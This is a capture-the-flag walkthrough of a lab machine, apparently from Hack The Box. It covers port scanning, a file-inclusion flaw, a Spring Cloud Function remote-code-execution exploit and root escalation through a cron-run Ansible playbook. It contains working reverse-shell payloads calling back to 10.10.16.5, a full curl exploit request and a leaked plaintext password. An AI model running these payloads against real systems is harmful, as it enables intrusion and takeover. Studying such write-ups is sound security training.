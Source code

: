 # Recon
```
 nmap -p- --min-rate 10000 10.10.11.204      
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-31 03:57 EEST
Stats: 0:00:26 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 79.78% done; ETC: 03:57 (0:00:07 remaining)
Stats: 0:00:26 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 80.07% done; ETC: 03:57 (0:00:06 remaining)
Nmap scan report for 10.10.11.204
Host is up (0.088s latency).
Not shown: 65327 filtered tcp ports (no-response), 206 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 33.18 seconds
```
- Upon browsing to port 8080 , we see the webpage
- Let us explore the endpoints listed in the page's top navigation bar
- The "Upload" functionality at /upload seems interesting as it has the option to upload a file
- When we try to upload a random .txt file, the page throws an error saying that only image files are allowed
- Upon successfully uploading an image file, we are provided with the option to view the uploaded image
- The "View your image" hyperlink takes us to the /show_image endpoint, which appends an img query parameter to the URL , whose value is the name of the uploaded image file
- the application reads the value of the img parameter in the URL and includes the corresponding file on the server
- if the application is not properly sanitizing the img parameter, we could craft a malicious request that includes a file outside of the intended directory- this is known as a Local File Inclusion (could include the /etc/passwd file on the remote host)
- intercept the HTTP request to the /show_image endpoint using the BurpSuite proxy, send the intercepted request to Repeater by pressing Ctrl+R and send the LFI payload in the img parameter to try to read the /etc/passwd file
- We can successfully read the contents of the /etc/passwd file in the HTTP response, thus verifying the presence of the LFI vulnerability in the web app.
- specifying the path of the /var/www/ directory, which is commonly used by web applications, we can reveal potential sub-directories
- ```
  ../../../../../../var/www
  ```
- By carefully examining the /var/www/WebApp/pom.xml file, we find that the web app is using version 3.2.2 of the Spring-Cloud-Function-Web module
- quick search about available exploits for that specific version reveals that it is vulnerable to Remote Code Execution ( RCE ), addressed in CVE-2022-22963
- to trigger the Remote Code Execution ( RCE ), we need to send a malicious POST request to the /functionRouter endpoint of the web app
-  First, we generate a Base64 -encoded Bash reverse shell payload using the following command
-  ```
   echo -n "bash -i >& /dev/tcp/10.10.16.5/1337 0>&1" | base64
   ```
- The POST request must include the following HTTP header. We paste the generated payload into the exec() function and pipe it into bash
```
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("bash
-c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi41LzEzMzcgMD4mMQ==}|{base64,-d}|{bash,-
i}")
```
- i couldnt get ashell from above so i used metasploit and fond the exploit but also couldnt get ashell
- after some search found this poc
```
curl -i -s -k -X $'POST' -H $'Host: 10.10.11.204:8080' -H $'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi41LzEzMzcgMD4mMQ==}|{base64,-d}|bash")' --data-binary $'exploit_poc' $'http://10.10.11.204:8080/functionRouter'
```
- and we got ashell as frank
- The shell can be upgraded to a TTY shell using the following commands
```
script /dev/null -c bash
export TERM=xterm
# Control + z
stty raw -echo && fg
# Press Enter (Return) twice
```
- after searching frank system we found this
```
cat /home/frank/.m2/settings.xml
```
- phil password ** DocPhillovestoInject123 **
- now switch to phill
- we found the user flag on phill home
# Privilege Escalation
- the pspy utility. We can download the pspy binary on the remote host by hosting it on our local machine using a Python HTTP server
- After letting the pspy binary run for a few minutes, we can see the following processes running as root show up every 2 minutes indicating that they are likely being run as a cronjob
- Google search reveals that ansible-parallel is a Python package that is used to execute multiple Ansible playbooks in parallel
- The /usr/local/bin/ansible-parallel binary is operating with root privileges , as indicated by the UID=0 , and executes all *.yml files found in the
/opt/automation/tasks directory, which are most likely the Ansible playbook files
- Another cronjob removes all the files from the /opt/automation/tasks directory and then copies the file /root/playbook_1.yml to /opt/automation/tasks/
- This command is likely used to replace the contents of the /opt/automation/tasks/ directory with a single file called playbook_1.yml
-  ```
   cat /opt/automation/tasks/playbook_1.yml
   ```
- This playbook is designed to check if the webapp service is running on the local machine, and if not, to start and configure it to start automatically at boot time
- check the permissions on the /opt/automation/tasks/ directory, we find that only the user root and the user group staff have read and write access
- the user phil is a member of the user group staff
- Knowing that the cronjob executes any and all .yml files inside the directory with root permissions, we can create a malicious Ansible playbook YAML file containing a task that will execute our payload, allowing us to escalate our privileges
- We create a new file called playbook_2.yml on the remote host in the /opt/automation/tasks directory
- the YAML playbook will consist of a single task that runs a shell command on the localhost host
- The shell command is a Bash reverse shell payload that will attempt to connect back to our machine
```
- hosts: localhost
  tasks:
  - name: Checking webapp service
    shell:
      cmd: bash -c 'bash -i >& /dev/tcp/10.10.16.5/1233 0>&1'
```
- After two minutes, when the cronjob executes, we successfully get a reverse shell as root
- 

